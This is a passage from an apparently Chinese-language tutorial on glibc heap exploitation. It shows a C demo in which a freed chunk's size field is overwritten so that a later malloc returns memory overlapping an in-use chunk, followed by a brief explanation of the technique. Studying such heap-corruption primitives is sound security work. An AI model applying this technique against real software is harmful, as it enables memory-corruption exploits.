 ```C

    memset(p1, '1', 0x100 - 8);
    memset(p2, '2', 0x100 - 8);
    memset(p3, '3', 0x80 - 8);

    free(p2);

    int evil_chunk_size = 0x181;
    int evil_region_size = 0x180 - 8;

    *(p2 - 1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2

    p4 = malloc(evil_region_size);

    fprintf(stderr, "\np4 has been allocated at %p and ends at %p\n", p4, p4 + evil_region_size);
    fprintf(stderr, "p3 starts at %p and ends at %p\n", p3, p3 + 80);

    fprintf(stderr, "p4 = %s\n", (char *)p4);
    fprintf(stderr, "p3 = %s\n", (char *)p3);

    memset(p4, '4', evil_region_size);
    fprintf(stderr, "p4 = %s\n", (char *)p4);
    fprintf(stderr, "p3 = %s\n", (char *)p3);

    memset(p3, '3', 80);
    fprintf(stderr, "p4 = %s\n", (char *)p4);
    fprintf(stderr, "p3 = %s\n", (char *)p3);
}
```

* 原理分析

三块连续分配的 chunk,首先释放中间 chunk B

假设 A chunk,在写的时候越界,修改了 free chunk B 的 size,超过了 chunk B 的 size

那在下次分配的时候,便会覆盖已经分配的 chunk C

![overlapping_chunks_result](../pictures/heap/overlapping_chunks/overlapping_struct.png)
